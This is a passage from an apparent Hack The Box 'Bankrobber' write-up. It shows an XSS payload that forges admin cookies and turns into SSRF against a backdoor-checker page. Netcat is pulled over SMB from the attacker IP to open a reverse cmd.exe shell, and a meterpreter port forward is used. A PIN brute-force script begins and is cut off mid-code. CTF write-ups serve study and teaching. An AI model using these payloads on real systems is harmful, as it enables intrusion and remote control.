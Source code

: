 ## Turning the XSS into an SSRF

As I found earlier I can't reach the `backdoorchecker.php` file from my own machine but I can use the same XSS to turn it into a SSRF. I'll need to change my javascript payload to generate a POST request to the backdoor checker page with the right parameters. After some trial an error I found that `dir|\\\\10.10.14.19\\test\\nc.exe 10.10.14.19 7000 -e cmd.exe"` payload works to execute netcat over SMB and get a shell.

```javascript
function pwn() {
    document.cookie = "id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D";
    var uri ="/admin/backdoorchecker.php";
    xhr = new XMLHttpRequest();
    xhr.open("POST", uri, true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cmd=dir|\\\\10.10.14.19\\test\\nc.exe 10.10.14.19 7000 -e cmd.exe");
}
pwn();
```

![](/assets/images/htb-writeup-bankrobber/shell1.png)

```
C:\xampp\htdocs\admin>type c:\users\cortin\desktop\user.txt
f6353466...
```

## Privesc using bank transfer application

There's something odd running on port 910...

![](/assets/images/htb-writeup-bankrobber/root1.png)

I also see a `bankv2.exe` file in the system root directory but I can't read it.

![](/assets/images/htb-writeup-bankrobber/root2.png)

I generated an metasploit reverse shell payload, uploaded it then created a port forward for this port:

```
meterpreter > portfwd add -l 910 -p 910 -r 127.0.0.1
[*] Local TCP relay created: :910 <-> 127.0.0.1:910
```

I can reach the application now on port 910 but I don't have a valid PIN:

![](/assets/images/htb-writeup-bankrobber/root3.png)

I tried checking for buffer overflows but couldn't crash the program so I likely have to brute force the PIN first. I made a quick script to brute force the PIN:

```python
#!/usr/bin/python

from pwn import *
import time
import sys

i = int(sys.argv[1])
j = int(sys.argv[2])
while True:
    m = ""
    if i < j:
        pin = str(i).zfill(4)
        p = remote("127.0.0.1", 910)
        try:
```